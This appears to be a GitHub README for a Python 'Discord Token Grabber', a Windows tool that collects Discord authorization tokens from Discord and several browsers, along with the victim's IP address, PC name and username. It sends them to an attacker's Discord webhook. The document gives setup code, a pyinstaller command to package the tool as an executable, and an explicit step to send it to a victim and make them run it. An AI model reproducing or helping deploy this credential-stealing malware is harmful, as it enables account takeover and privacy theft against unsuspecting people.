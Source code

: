 <h1 align="center">Discord Token Grabber</h1>
<p align="center">A Discord token grabber written in Python 3. </p>

![visitor badge](https://visitor-badge.glitch.me/badge?page_id=mega145.Discord_token_grabber&left_color=red&right_color=green)
[![wakatime](https://wakatime.com/badge/user/0cbbc6ac-da04-48ba-9a02-7d5bcf8cd1af/project/ec0a8e59-d0aa-4585-9074-438fbd89ef56.svg)](https://wakatime.com/badge/user/0cbbc6ac-da04-48ba-9a02-7d5bcf8cd1af/project/ec0a8e59-d0aa-4585-9074-438fbd89ef56)

This version of the grabber **only** supports **Windows**.
# Features
 - Transfers via Discord webhook
 - Sends: Public IP, PCName, PCUserName, Windows Version, Discord username, descriminator , token
 - Searches for authorization tokens in multiple directories (Discord, Discord PTB, Discord Canary, Google chrome, Opera, Brave and Yandex)
 - Only requests library needed
 - Can be used as a library

# Example Message
![fancy](https://imgur.com/pHKYnQl.png "example of fancy mode")  
![example](https://imgur.com/HfGR31U.png "example of simple mode")


# How to use
 1. Create a webhook on your Discord server.
<br>
 2. add it to another script (preferably as a library)

example:
```python
import token_stealer
token_stealer.WEBHOOK_URL = "https://discord.com/api/webhooks/123456789/fyugYDStygft2g7y8f6datyFTYydfg61hfTY78y"
token_stealer.PING_ME = True
token_stealer.SEND_IP = True
token_stealer.SEND_PC_INFO = True
token_stealer.fancy()
```
2.75. Compile the script using pyinstaller (optional but recomended)
```
pyinstaller --onefile --console --name "program_name_here" --no-embed-manifest --add-data "C:/path/to/project/token_stealer.py;."  "C:/path/to/project/your_script.py"
```
3. Send the script to your victim and make them run it.

# Changelog:
```
- some fixes
```

[![Readme Card](https://github-readme-stats.vercel.app/api/pin/?username=mega145&repo=Discord_token_grabber&bg_color=151515)](https://github.com/anuraghazra/github-readme-stats)
